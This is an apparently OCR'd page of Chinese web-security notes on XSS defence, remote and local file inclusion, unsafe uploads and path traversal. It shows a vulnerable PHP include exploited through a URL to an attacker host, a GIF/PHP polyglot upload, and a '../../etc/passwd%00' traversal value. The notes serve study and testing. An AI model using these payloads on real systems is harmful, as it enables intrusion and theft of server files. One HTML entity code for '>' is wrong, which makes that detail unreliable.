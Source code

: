 ### XSS防御

* 验证(白名单)
* 将HTML转换为HTML实体等价:
	- < 可以用 &lt; 或 &#60 表示
	- > 可以用 &gt; 或 &#63 表示
* 编码时考虑环境 (JavaScript, inline-HTML, URLs)


---

## 不安全的文件处理

* 利用包括指令来执行攻击者的选择文件。
* 文件包含在各种web编程框架中被使用。
* RFI在PHP中更常见，但是Java和asp/asp也易受LFI影响。

```
<?php $page = $_GET["page"];
include($page); ?>
```
页面在 ***http://www.target.com/vuln.php?page=http://www.attacker.com/rooted.php***.

* RFI 取决于php.ini中是 **allow_url_fopen** 还是 **allow_url_include** 。

* 不安全的文件上传:上传失败来限制文件类型和文件是可访问的。

* 尝试上传任意文件类型 (.jsp, .aspx, .swf): 操作内容类型（Content-Type）的请求头

* 一旦上传，确定上传的内容是否可以访问。如果它在服务器上是可执行的，它就结束了。如果它是可下载的，它可能会利用恶意内容的用户。

* 尝试混合文件：
```
GIF89a(...binary data...)
<?php phpinfo();  ?> (...
```


### 识别文件处理错误

* 模糊和grep对文件系统相关消息的响应:
```
qr / ((could not|cannot|unable to) (open|find|access|read)|(path|file) not found) /i;
```

* 分析通过路径和文件名的参数的请求。

* 尝试目录遍历、空字节等。
```
/FileDownload?file=reports/SomeReport.pdf
/FileDownload?file=../../etc/passwd%00.pdf
```


###  元字符注入漏洞

* 文件输入/输出是一个常见的元字符注入的地方。
